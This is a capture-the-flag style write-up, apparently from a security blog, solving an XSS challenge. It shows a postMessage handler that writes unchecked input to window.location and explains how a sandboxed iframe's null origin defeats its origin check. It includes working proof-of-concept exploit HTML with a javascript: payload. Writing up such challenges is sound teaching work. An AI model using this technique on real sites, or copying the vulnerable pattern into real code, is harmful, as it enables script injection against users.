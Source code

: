 ```yaml
---
layout: single
title: XSS Challenge By @honoki
date: 2022-05-04
classes: wide
tags:
  - XSS
  - Challenge
  - honoki
---
```


How could two security features collide into a vulnerability? Read more to find out!

## Overview

The gist of the challenge is:

> I came across an interesting XSS today. Can you spot the bug and exploit it?

To start off, here is the complete codebase of the challenge.

```
<script>
var originAllowed = function(o) {
  try {
    return new URL(o,window.location.origin).hostname === new URL(window.location).hostname;
  } catch (e) {
    return false;
  }
}

window.addEventListener("message", function(e) {
  if (originAllowed(e.origin) && e.data) {
    try {
      t = JSON.parse(e.data)
    } catch (e) {}
    if (t && "object" == typeof t && t.goto) { window.location = t.goto; }
  }
});
</script>
```

The first issue here is the insecure assignment on `window.location`, which definitely leads to XSS. Here is a small PoC:

![self-xss](/assets/images/other/honoki/self-xss.png)

Unfortunately, this is only half of the challenge. As honoki explained, here's what needs to be done:

> I’m getting a lot of solutions using postMessage to generate the alert from the devtools; that’s good but only half the challenge. 😇 Try and make sure that your payload works when sent from another website/domain to solve it completely. 👏

This could only be done if the origin check at `originAllowed` is somehow insecure or broken.

The function returns true only if the event origin's hostname is equal to the location origin's hostname.

However, the first part is very suspicious.

```
new URL(o,window.location.origin)
```

Using the location origin as an URL base is a bad idea.

![twitter comment](/assets/images/other/honoki/twitter-comment.png)

If I were to somehow hide my origin, then the following would happen:

![null-origin](/assets/images/other/honoki/null-origin.png)

If an `iframe` makes a `postMessage` call and has a `sandbox` attribute that doesn’t contain the value `allow-same-origin`, [browsers give it a “unique” origin](https://html.spec.whatwg.org/multipage/iframe-embed-object.html#the-iframe-element:concept-origin-2):

> When the `sandbox` attribute is set, the content is treated as being from a unique origin, forms, scripts, and various potentially annoying APIs are disabled, links are prevented from targeting other browsing contexts, and plugins are secured. The allow-same-origin keyword causes the content to be treated as being from its real origin instead of forcing it into a unique origin.

When determining the value of the Origin header to send in a cross-origin request, browsers serialize any unique origin as `null` and give the Origin header that value.

## Solution

I first write the `postMessage` caller like this:

```
<html>
    <body>
        <script>
            var url = "https://demo.honoki.net/xss-challenge.html"
            var pup = window.open(url)
            setTimeout(() => {
                pup.postMessage('{"goto": "javascript:alert(document.domain)"}', url)
            },1500)
        </script>
    </body>
</html>
```

Next, I frame the code and give it the required sandbox attributes.

```
<html>
    <iframe
        src="./exploit.html"
        sandbox="allow-scripts allow-popups allow-popups-to-escape-sandbox"
    ></iframe>
</html>
```

The `allow-scripts`, `allow-popups` and `allow-popups-to-escape-sandbox` are required to make the `postMessage` call.

Here is the result when I run it on a local server.

![alert](/assets/images/other/honoki/alert.png)

Thanks for reading!